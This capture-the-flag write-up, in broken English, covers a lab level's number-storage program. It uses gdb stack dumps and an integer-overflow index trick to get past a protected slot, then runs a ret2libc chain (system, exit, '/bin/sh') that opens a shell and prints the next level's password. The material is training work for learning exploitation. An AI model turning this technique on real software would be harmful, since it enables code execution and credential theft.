

## Project README: Finding flag07

This programe his crating of array that can stock number. we have 464 place to do that. So when the program launch we can store read or quit.

### Analysis

So the idea we found was to write in the stack the place of EIP. So when the programs that saved EIP will exit to this adress he will jump the specific adress we gave him. So first we need to find the adress of eip then write the adress of our shellcode. But the problem is that if our eip adress is mod 3 his reserved for will.

### Progress

We first need to pick an adress that interest us. That is after our buffer in memory.

Input command: store
 Number: 8 1
 Index: 1
 Completed store command successfully
Input command: quit

Breakpoint 1, 0x080489f1 in main ()
(gdb) si
0xf7e45513 in __libc_start_main () from /lib32/libc.so.6

we can see when we are quiting the program he jump to this adress in the libc : 0xf7e45513

Now let's find it in the memory. We know that we put our value at index 1 (0 is reserved for will)
let's see by putting a break point in our store number.
```sh
(gdb) b *0x080486d5
Breakpoint 2 at 0x80486d5

0xffffd500:	0x08048add	0xffffd554	0x00000000	0xf7e2b6c0
0xffffd510:	0xffffd718	0xf7ff0a50	0x00000008	0x00000001
0xffffd520:	0x00000000	0xffffdfdc	0xffffd718	0x080488ef
0xffffd530:	0xffffd554	0x00000014	0xf7fcfac0	0xf7fdc714
0xffffd540:	0x00000098	0xffffffff	0xffffd80c	0xffffd7b8
0xffffd550:	0x00000000	0x00000000	0x00000008	0x00000000
0xffffd560:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd570:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd580:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd590:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5a0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5b0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5c0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5d0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5e0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5f0:	0x00000000	0x00000000	0x00000000	0x00000000
```

ok our 8 is at the adress 0xffffd558 now let's find the eip adress : 0xf7e45513
```sh
(gdb) x/256wx $esp
0xffffd550:	0x00000000	0x00000000	0x00000008	0x00000000
0xffffd560:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd570:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd580:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd590:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5a0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5b0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5c0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5d0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5e0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd5f0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd600:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd610:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd620:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd630:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd640:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd650:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd660:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd670:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd680:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd690:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6a0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6b0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6c0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6d0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffd6e0:	0x00000000	0x00000001	0x726f7473	0x00000065
0xffffd6f0:	0x00000000	0x00000000	0x00000000	0x1c409700
0xffffd700:	0xf7feb620	0x00000000	0x08048a09	0xf7fceff4
0xffffd710:	0x00000000	0x00000000	0x00000000	0xf7e45513
```


ok it's at the adress 0xffffd71c.
So now we can calculate how much is it after our buffer.
114 places ok so let's check first by using the read.
Input command: read
- Index: 114
- Number at data[114] is 4158936339
- Completed read command successfully

4158936339 in hex = F7E45513
so yes exactly the adress we want to target. But we cannot change the value because 114 % 3 = 0.
So it's reserved for will. But there is something that we can do is actually doing a buffer overflow because we are not puting at the 114 place but actually at the 456 places
```C
*(unsigned int)(index * 4 + data) = number;
```

So multiplicating by 4 equal doing a bitshifting of 2 (<< 2).
And when we bit shift of 2 the number that are in the front are removed.
so for exemple 4000000000015 bit shifting of 2 equal 15.
Because an uint is 32 bit. so he will overflow and remove the 2 first number.
So let's try to find the number using the programming calc.



So we put one at the 32 bit. that will be removing when the * 4.
And then we put 114.
and we found this number : **1073741938**
Let's try a retToLibC.
```sh
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 (decimal = 4159090384) <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 (decimal =4159040368) <exit>
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec (Decimal = 4160264172)
```

Ok let try this :
```sh
Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ cd ../level08
$ cat .pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
et voila

